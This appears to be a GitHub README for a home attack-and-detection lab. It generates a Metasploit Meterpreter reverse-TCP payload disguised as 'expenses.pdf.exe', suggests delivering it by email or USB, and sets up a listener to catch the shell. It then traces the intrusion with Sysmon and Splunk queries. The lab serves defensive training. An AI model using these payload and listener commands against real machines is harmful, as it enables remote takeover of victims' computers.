

# Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview

This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using Sysmon and Splunk

## Tools used

- **Kali Linux** (attacker machine)
- **Windows 10** (victim machine)
- **Splunk**
- **Sysmon**
- **Metasploit framework (`msfvenom`, `msfconsole`)**

## Attack Simulation

Payload: `windows/meterpreter/reverse_tcp` \
Tools used: Kali Linux, Metasploit framework (`msfvenom`, `msfconsole`)

### Steps taken

1. **Finding an open port** 

   Find an open port using `nmap -A -Pn <Victim IP address>`

2. **Generating the payload**

   Create a meterpreter reverse tcp payload using msfvenom on the kali linux machine

   ```bash
   msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
   -f exe -o expenses.pdf.exe
   ```

3. **Deliver the payload to the victim machine**

   via email, USB, etc.
4. **Establish a Meterpreter session via msfconsole**

   To receive the reverse shell, Metasploit's `exploit/multi/handler` module was used to be a listener and capture a connection from the malicious payload

   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set lhost <attacker IP address>
   set lport <open port used in (2)>
   exploit
   ```

   

## Detection

Tools used: Windows 10, Sysmon, Splunk

### Initial Detection: Unusual Network Connection

Looking at event data with EventCode=3 there was an unusual network connection from `<attacker IP address>` to port `<3389> (RDP)`, indicating a Potential compromise.

Looking at more events using the spl query of:

```bash
 index=endpoint EventCode=3 <attacker IP address>
```

An event is found where:



From the above we can see

```bash
DestinationIp: <attacker IP address>
sourceIp: <victim IP address>
Image: C:\Users\<User>\Downloads\expenses.pdf.exe
```

Indicating a network connection initiated by an unusual executable file from the victim machine which is a strong indicator of a reverse shell or command and control channel

Using the query of:

```bash
index=endpoint EventCode=1 expenses.pdf.exe
```


An event indicating cmd.exe was created from the parent process of `expenses.pdf.exe`\
From this we can take the process guid to find what commands have been executed by the shell

```bash
index=endpoint process_guid = <process_guid>
| table _time, ParentImage,  Image, CommandLine
```

From the above query we get the resut:
 


Through this image resulting from using the process_guid it is discovered that this process executed commands such as whoami, ipconfig, net localgroup, net user.
